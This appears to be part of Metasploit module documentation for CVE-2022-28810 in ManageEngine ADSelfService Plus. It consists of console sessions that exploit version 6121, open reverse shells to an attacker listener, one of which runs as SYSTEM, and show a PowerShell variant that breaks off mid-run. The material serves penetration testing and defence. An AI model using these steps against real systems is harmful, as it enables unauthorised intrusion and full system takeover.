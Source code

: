 ### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTPs (9251 is default when configured)

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RPORT 9251
RPORT => 9251
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:9251 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50035 ) at 2022-04-19 09:10:37 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP for a powershell reverse shell

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SHELL powershell.exe
SHELL => powershell.exe
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe